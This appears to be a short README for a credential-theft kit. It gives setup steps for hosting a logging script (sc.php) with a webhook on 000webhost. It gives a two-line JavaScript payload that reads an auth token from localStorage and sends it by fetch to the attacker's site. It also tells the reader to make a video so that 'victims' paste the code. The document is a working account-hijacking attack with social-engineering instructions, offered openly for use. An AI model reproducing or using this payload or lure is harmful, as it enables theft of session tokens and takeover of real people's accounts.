# Setting it up:
Make a website on 000webhost
go to file manager
upload the files
replace ur webhook in sc.php line 97
save and close

# How to log people:

var token = localStorage.getItem('auth._token.local');
await fetch("https://yourwebsitehere.com/sc.php?t=" + token);

replace the code with your new website make a vid like this: https://www.youtube.com/watch?v=AEopKzkFME8&t=38s send to your victims/make a youtube on it

done!

# Credits 
!! qrs v2#7310
